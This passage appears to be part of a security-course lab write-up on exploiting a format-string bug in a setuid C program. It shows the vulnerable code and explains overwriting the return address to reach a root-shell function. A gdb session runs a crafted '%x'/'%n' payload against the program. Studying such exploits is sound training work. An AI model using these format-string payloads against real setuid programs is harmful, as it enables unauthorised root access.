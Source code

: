 

<span class="hljs-keyword">int</span> main(<span class="hljs-keyword">int</span> argc, <span class="hljs-keyword">char</span> **argv)
{
        <span class="hljs-keyword">if</span> (argc != <span class="hljs-number">2</span>)
        {
                <span class="hljs-built_in">printf</span> (<span class="hljs-string">"HALL-E: Please specify your name!\n"</span>);
                <span class="hljs-keyword">return</span> -<span class="hljs-number">1</span>;
        }
        <span class="hljs-built_in">printf</span> (<span class="hljs-string">"Your input was of length: %d\n"</span>, <span class="hljs-built_in">strlen</span>(argv[<span class="hljs-number">1</span>]));
        openlog (<span class="hljs-string">"format1"</span>, <span class="hljs-number">0</span>, <span class="hljs-number">0</span>);
        <span class="hljs-keyword">if</span> (geteuid() != getuid())
                syslog (LOG_INFO, <span class="hljs-string">"FORMAT:rwang74:%d/%d:%d\n"</span>, getuid(), geteuid(), <span class="hljs-built_in">strlen</span>(argv[<span class="hljs-number">1</span>]));
        closelog ();

```
    hall_e (argv[<span class="hljs-number">1</span>]);
    <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>;
```

}
</code></pre>

<p>To reduce the difficulty, this program already embedded another method called <code>heaven()</code> that does a series of system call to spawn a shell and gives us root privilege, our job is to just call it, which can be achieved by simply put the address of <code>heaven()</code> at the next 4-bytes after <code>$ebp</code>. So first two tasks: figure out <code>heaven()</code> address and <code>$ebp</code> when the <code>hall_e()</code> function returns. We can easily do this in <code>gdb</code>. (I believe this is really simple for you by now, so I will skip the detail).</p>
<p><code>heaven address: 0x08048690 <br>
 ebp: 0xffffda30 <br>
</code> <br>
How can we possibly write such a complicated <code>08048690</code> to a target address. Here is the trick. <br>
First, you need to figure out what the <code>$esp</code> look like when your input is copied to the stack, maybe it doesn’t start at  a desired position that can be interpreted as a 8-byte address and you need to put some JUNK to push it back. I will show it in <code>gdb</code></p>



<pre class="prettyprint"><code class="language-gdb hljs perl">(gdb) b hall_e
Breakpoint <span class="hljs-number">1</span> at <span class="hljs-number">0x80486b0</span>: file <span class="hljs-keyword">format</span>.c, line <span class="hljs-number">20</span>.
(gdb) run <span class="hljs-variable">$(</span>python -c <span class="hljs-string">'print "\x34\xda\xff\xff"+"%x"*9+"%"+"%n"'</span>)
Starting program: <span class="hljs-regexp">/c0re/attackformat</span> <span class="hljs-variable">$(</span>python -c <span class="hljs-string">'print "\x34\xda\xff\xff"+"%x"*9+"%134514234x"+"%n"'</span>)
Your input was of <span class="hljs-keyword">length</span>: <span class="hljs-number">35</span>
